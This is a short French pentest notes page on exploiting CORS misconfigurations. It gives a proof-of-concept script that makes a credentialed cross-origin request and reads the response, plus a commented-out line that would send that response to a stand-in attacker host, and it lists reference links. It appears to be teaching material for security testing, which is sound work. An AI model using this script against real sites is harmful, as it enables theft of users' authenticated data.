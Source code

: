 ```yaml
---
title: Cross-Origin Ressource Sharing
permalink: /CORS/
---
```


# Cross Origin Ressource Sharing (CORS)

## Script

Le script suivant permet de faire un PoC rapide (repris de https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties=)

``` html
<html>

<script>
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','http://perdu.com',true); 
req.withCredentials = true;
req.send();


function reqListener() {
    //location='//atttacker.net/log?key='+this.responseText; 
	alert(this.responseText);
};
</script>

</html>
```


## Ressources

- [Advanced CORS Exploitation Techniques](https://www.sxcurity.pro/advanced-cors-techniques/)
- [Exploiting CORS misconfigurations for Bitcoins and bounties](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
- [CORS misconfigurations](https://github.com/EdOverflow/bugbountywiki/wiki/CORS-misconfigurations)
